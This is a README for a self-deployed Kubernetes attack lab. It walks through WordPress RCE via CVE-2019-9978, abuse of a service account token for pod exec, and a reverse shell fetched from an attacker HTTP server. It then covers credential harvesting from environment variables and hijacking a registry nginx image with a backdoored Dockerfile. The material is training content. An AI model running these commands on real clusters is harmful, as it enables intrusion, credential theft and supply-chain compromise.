 ## Disclaimer

The information provided in this repository is intended for educational purposes only. The authors do not assume any responsibility or liability for the misuse of the content presented here. Use the materials at your own risk and ensure compliance with applicable laws and regulations.


# What Is it?
This repository contains an automatically deployed lab for demonstrating attacker capabilities in a kubernetes cluster.

# What you need?
- docker
- kubernetes (via kubeadm on you machine)

# How make it works?

## 1. Up Kubernetes cluster via kubeadm
You can use any guide from the Internet for your system.

## 2. Clone miraclekubernetes repository
```sh
git clone https://github.com/4RAYS-by-SOLAR/kubernetesMiracle.git
```

## 3. Execute laboratory-up.sh
This is up all need services\pods\deployments\rbac e.t.c for this lab
```sh
sudo sh laboratory-up.sh
```

## 4. When you done with lab, clear your cluster
This script deletes all kubernetes resources that were created in step 3
```sh
sudo sh laboratory-down.sh
```

# Laboratory diagram
On this diagram you can see map of the lab **Kubernetes Miracle**
![Scheme](./pictures/LabScheme.png)

# Default Attack Scenario

### 1. Init Access on the Wordpress Pod via CVE-2019-9978
In our WordPress application we have the social-warfare plugin installed.
This plugin is vulnerable to CVE-2019-9978 through which RCE can be implemented

1. Up our http server with payloads 
```sh
cd payloads
python3 -m http.server 8080
```

2. Use podlist.php payload to list all pods in default namespace (we can do it cause have service account token with list pods RBAC righs (SA - wordpressowner))
```sh
http://{wordpresspodip\serviceip}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://10.244.0.1:8080/cvewordpress/podlist.php
```
![PodList](./pictures/podlist.png)

We can find mysql pod in our namespace. Let's try to execute the command in it

### 2. Execute command use a misconfiguration of RBAC

1. So, We don't have a shell in wordpress pod. Using whoami we understand that we are working under www-data and we don't have enough rights to execute, but we can read the service account token and try to execute the command in mysql pod using it.
\
\
Try Using Curl for It (Payload in whoami.php)
```sh
curl -k   --http1.1   -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=="   -H "Sec-WebSocket-Version: 13"   -i -N   -H "Connection: Upgrade"   -H "Upgrade: websocket"   -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"   "https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-cvzfh/exec?command=whoami&container=mysql&stdin=true&stdout=true&stderr=true"

```
![Whoami](./pictures/whoami.png)

2. Download revshell on mysql pod:
```sh
curl -k   --http1.1   -H \"Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==\"   -H \"Sec-WebSocket-Version: 13\"   -i -N   -H \"Connection: Upgrade\"   -H \"Upgrade: websocket\"   -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\"   \"https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-pbx2f/exec?command=curl&command=-O&command=http://10.244.0.1:8080/revshell/revshell.sh&container=mysql&stdin=true&stdout=true&stderr=true\"
```
![DownloadRevShell](./pictures/revshelldownload.png)
![revshellplacement](./pictures/revshellplacement.png)

3. Activate revshell

Start listening:
```sh
root@master-node:/home/user# nc -lnvp 6666
Listening on 0.0.0.0 6666
```

Get Shell:
![activateshell](./pictures/revshellactivate.png)

4. Recon in mysql pod and find the login and password for database (it is the same as the registry)
\
Use ENV and search output:
```sh
bash-5.1# env
env
HOSTNAME=wordpress-mysql-5dcfb54f74-pbx2f
DOCKER_REGISTRY_PORT_5000_TCP_PORT=5000
MYSQL_ROOT_PASSWORD=123
DOCKER_REGISTRY_PORT_5000_TCP=tcp://10.100.123.183:5000
DOCKER_REGISTRY_PORT=tcp://10.100.123.183:5000
```

### 3. Hijacking nginx image in docker registry
1. List all images in registry
![listimages](./pictures/imageslist.png)
![nginxfound](./pictures/findnginximage.png)

2. So, We found an image nginx, but we don't see such a pod in the list of pods.
\
We can assume that it is in a different namespace. In this case, to be able to execute code in nginx, you need to hijack the container image on the basis of which it is created.

3. Let's build an image based on the basic nginx, but add revshell there with activation when starting the pod
```sh
Dockerfile
FROM nginx:latest

COPY ./revshell.sh /
RUN chmod 777 /revshell.sh

ENTRYPOINT ["/revshell.sh"]
```
\
```sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# ls
Dockerfile  revshell.sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
nginx        latest    4cad75abc83d   2 months ago   192MB
registry     2.6.2     10b45af23ff3   5 years ago    28.5MB
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker build -t docker-registry:5000/nginx:v1 .
[+] Building 0.2s (8/8) FINISHED                                                                                                  docker:default
 => [internal] load build definition from Dockerfile                                                                                        0.0s
 => => transferring dockerfile: 132B                                                                                                        0.0s
 => [internal] load metadata for docker.io/library/nginx:latest                                                                             0.0s
 => [internal] load .dockerignore                                                                                                           0.0s
 => => transferring context: 2B                                                                                                             0.0s
 => [internal] load build context                                                                                                           0.0s
 => => transferring context: 32B                                                                                                            0.0s
 => [1/3] FROM docker.io/library/nginx:latest                                                                                               0.0s
 => CACHED [2/3] COPY ./revshell.sh /                                                                                                       0.0s
 => CACHED [3/3] RUN chmod 777 /revshell.sh                                                                                                 0.0s
 => exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                     0.0s
 => => writing image sha256:b57dcc8bfea120cb3d4705a8a6c280100b43d93ca1e9ce76fb841cbabffd2309                                                0.0s
 => => naming to docker-registry:5000/nginx:v1                                                                                              0.0s
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker push docker-registry:5000/nginx:v1
The push refers to repository [docker-registry:5000/nginx]
c68502e667c2: Pushed 
c8acd88f1e63: Pushed 
eda01226259d: Layer already exists 
fd2315f0cf24: Layer already exists 
ae2a14e88adb: Layer already exists 
27f473333e2f: Layer already exists 
d8d396eadc9a: Layer already exists 
c1a9699c6559: Layer already exists 
ea680fbff095: Layer already exists 
v1: digest: sha256:47024db27b2d6eb27e44bd95a249c2673a4bf7fa2b458cb5339d9f7dbc9ab377 size: 2192
```

As we can see, two layers were added to the image
This is exactly our revshell

4. We wait until the pod is restarted, then our revshell will be activated. \
As part of the lab, you can restart it yourself
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl delete pod nginx -n outsideserver
pod "nginx" deleted
```

5. After restart nginx we get shell and see, that root filesystem is mount on nginx.
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl apply -f podforbackdoorregistry.yaml 
namespace/outsideserver unchanged
pod/nginx created
```

```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.244.0.178 45354
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nginx:/# cat /etc/hostname
cat /etc/hostname
nginx
```

### 4. We make an impact

In this part you have access to the node and can do whatever comes into your head.
For example:
* Static Pods
* kubetcd (invisible pod creation)
* /var/log mount pod
* coredns poison
* cronjobs creation
* Cluster admin binding

Hooray!!!
